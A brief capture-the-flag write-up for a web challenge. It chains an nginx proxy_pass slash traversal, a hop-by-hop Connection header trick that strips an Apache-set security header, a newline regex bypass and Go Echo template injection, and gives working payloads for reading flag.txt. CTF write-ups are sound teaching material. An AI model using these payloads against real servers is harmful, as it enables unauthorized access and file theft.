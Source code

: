 # solution

nginx off by one slash misconfig via proxy_pass which you can abuse to access unacessable endpoints on backend
```nginx
        location /vaults {
            proxy_pass http://apache-proxy/vaults/;
        }
```

send request: 
/vaults../controlPanel == /vaults/../controlPanel
 to access the control panel endpoint via apache on go backend

Then you need to pass the additional security header check
`if _, exists := c.Request().Header["X-Is-Remote"]; !exists {`

To bypass this check you need to abuse RFC hop by hop headers, which will strip the header in the apache proxy, headers are set in apache:
    Header set X-Is-Remote "True"
    RequestHeader set X-Is-Remote "True"

In request:
```http
HTTP ....
...
Connection: closed, X-Is-Remote
```

this will strip the X-Is-Remote req

Next step when you get access to controlPanel is to bypass the regex check for the tags and get ssti in which you will use golang Echo Web Framework as a gadget since it has a file read method by default ({{ .File "flag.txt"}})

To bypass regex:
```Go
if newVault.Tag != "" && newVault.Tag != "NaN" {
            re := regexp.MustCompile(`^(public|gold|lucky|cursed|secret|jewlery)(\n.*)?$`)
            if !re.MatchString(newVault.Tag) {
                return c.JSON(http.StatusBadRequest, map[string]string{
                    "error": "You can only use whitelisted tags",
                })
            }
```

you just need to add newline after the valid tag, so:
`public%0A{{ .File "flag.txt"}}`